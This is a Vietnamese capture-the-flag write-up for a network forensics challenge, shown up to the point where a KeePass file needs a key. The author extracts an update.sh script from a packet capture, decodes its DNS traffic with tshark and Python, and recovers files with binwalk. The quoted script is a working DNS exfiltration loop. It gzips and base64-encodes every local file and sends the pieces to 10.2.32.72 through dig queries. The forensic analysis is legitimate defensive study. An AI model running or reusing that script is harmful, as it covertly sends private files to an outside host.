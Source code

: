 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```i-```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.

```python
# Đọc nội dung từ tệp input
with open('dns.txt', 'r', encoding='utf-8') as file:
    content = file.readlines()

# Xử lý nội dung
processed_lines = []
for line in content:
    # Giải mã chuỗi hex
    try:
        decoded_line = bytes.fromhex(line.strip()).decode('utf-8')
        
        # Thay thế '-.' bằng ký tự xuống dòng
        decoded_line = decoded_line.replace('-.', '\n')
        
        # Thay thế '}' bằng '+'
        decoded_line = decoded_line.replace('}', '+')
        
        # Thay thế '{' bằng '/'
        decoded_line = decoded_line.replace('{', '/')
        
        # Nếu dòng không chứa "ubuntu", thêm vào danh sách
        if 'ubuntu' not in decoded_line:
            processed_lines.append(decoded_line)
    except Exception as e:
        print(f"Không thể giải mã dòng: {line.strip()} - Lỗi: {e}")

# Ghi kết quả vào tệp output
with open('t2.txt', 'w', encoding='utf-8') as file:
    file.writelines(processed_lines)

print("Quá trình xử lý đã hoàn tất!")

```

Sau khi tách bằng file code sau được file t3.txt nhưng không đẩu đủ chúng ta cần xóa những dòng dư thừa bằng code python sau.

```python
# Các chuỗi cần xóa
strings_to_remove = [
    "7bgTtW3Fp59pgy", "2PmGj7XTSNwg5", "2NHJWYG1EYAkZ",
    "2x9kyYFcUyDeC2c65", "4xUi2j75eJtNc1", "2tuJoHGout6YhgSX3",
    "9CUmw2dKFRrmvfhiEM"
]

# Đọc nội dung từ tệp input
with open('t2.txt', 'r', encoding='utf-8') as file:
    lines = file.readlines()

# Lọc các dòng không chứa các chuỗi cần xóa
filtered_lines = [
    line for line in lines if not any(substring in line for substring in strings_to_remove)
]

# Ghi kết quả vào tệp output
with open('gob', 'w', encoding='utf-8') as file:
    file.writelines(filtered_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau đó chúng ta decode base64 treeb cyberchef đem đi binwalk.

sau z chúng ta binwalk được file nén sau được con đường hy vọng.

```python
╭─   nart   ~/Solve                                                                          ✔  03:10:54 AM  ─╮
╰─❯ binwalk -e pls.zip                                                                                               ─╯

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, has original file name: "blueteam.bmp", from Unix, last modified: 2022-04-08 06:35:19
27707         0x6C3B          gzip compressed data, has original file name: "discord.png", from Unix, last modified: 2022-09-25 06:48:33
27734         0x6C56          PNG image, 256 x 256, 8-bit colormap, non-interlaced
29086         0x719E          gzip compressed data, has original file name: "Flag.kdbx", from Unix, last modified: 2022-10-24 06:24:10
31373         0x7A8D          gzip compressed data, has original file name: "gaixinh.jpg", from Unix, last modified: 2022-07-19 18:20:33
40164         0x9CE4          gzip compressed data, has original file name: "kcsc.png", from Unix, last modified: 2022-09-25 06:48:33
53705         0xD1C9          gzip compressed data, has original file name: "meme.jpg", from Unix, last modified: 2022-09-25 06:48:33
69258         0x10E8A         gzip compressed data, has original file name: "update.sh", from Unix, last modified: 2022-10-24 06:59:42
```
thấy được đích r

![image](https://github.com/user-attachments/assets/0d331f03-b9cd-467e-a04c-1df059a2332f)




Sau khi mò thì thấy file Flag.kdbx hợp lý nhất nên sẽ tấn công nó.

Có vẻ như file ```.kdbx``` là file nén đặc biệt nên cần tải công cụ đặc biệt để mở nó.

![image](https://github.com/user-attachments/assets/d1a72f03-8115-4ce9-a217-6e85f72bfb49)

Không chỉ là đặc biệt mà còn cần key.

![image](https://github.com/user-attachments/assets/f8199a70-2bbd-479b-b6ee-4b290d5b426a)



